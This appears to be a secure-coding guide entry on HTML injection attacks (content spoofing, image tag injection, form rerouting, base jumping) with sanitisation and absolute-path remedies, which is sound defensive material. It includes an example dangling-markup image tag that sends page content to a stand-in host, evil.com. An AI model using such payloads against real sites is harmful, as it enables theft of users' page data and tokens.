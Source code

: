 HTML injections
-------

**Description:**

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

	1.Content Spoofing 
	2.Image Tag Injection 	
	3.Form Rerouting 
	4.Base Jumping 
    5.Element Override 
    6.Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarised above.

**Solution:**

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs 
whenever an attacker can inject code into your application. It is very important to sanitise and
or encode user data before you display it on screen as HTML. 

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non terminated
parameter like : <img src='http://evil.com?steal.php?value=
Every content after value= parameter will now be stolen and send to evil.com by the attacker 
till the injection finds the next occurence of a matching single quote.

Again you should sanitise and encode the userinput to prevent an image tag from being injected
in your application. For whenever a user is permitted to submit an image on your application
enforce and verify the application accepts valid non-broken tags only.
 
3.The <form> tag can't be nested. The top-level occurrence of this element
always takes precedence over subsequent appearances. Again you must avoid this type by 
properly encoding and sanitising your user-inputs.

4.Whenever an attacker injects a <base> tag into your application it can steal data because
the <base> tag specifies the base URL/target to where to process his data to.

The solution to base jumping would be to us absolut paths in your application such as:
<form action='/update_profile.php'>

instead of:
<form action='update_profile.php'>

5/6. can both also easily be prevented simply be encoding or sanitising your userinput
submitted towards your application.

Always validate your user-input on a high level(server side constraint). Whenever your 
application expects an integer you should validate and check whether the user submitted 
input really is what you expected it to be and otherwise you terminate and log the request.

   